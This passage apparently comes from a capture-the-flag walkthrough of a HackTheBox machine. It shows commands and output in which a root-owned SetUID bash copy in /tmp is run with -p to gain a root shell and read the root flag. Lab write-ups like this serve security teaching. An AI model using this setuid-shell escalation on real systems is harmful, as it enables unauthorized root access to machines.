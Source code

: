 After the next minute, `/tmp/0xdf` is there, and a SetUID binary owned by
root:

    
    
    dev01@opensource:~/.git/hooks$ ls -l /tmp/0xdf 
    -rwsrwxrwx 1 root root 1113504 Sep 30 13:45 /tmp/0xdf
    

Running with `-p` (to tell Bash not to drop privs) returns a root shell
(effective uid is root):

    
    
    dev01@opensource:~/.git/hooks$ /tmp/0xdf -p
    0xdf-4.4# id
    uid=1000(dev01) gid=1000(dev01) euid=0(root) groups=1000(dev01)
    

And I can read `root.txt`:

    
    
    0xdf-4.4# cat /root/root.txt
    07bae31e************************
    

[](/2022/10/08/htb-opensource.html)

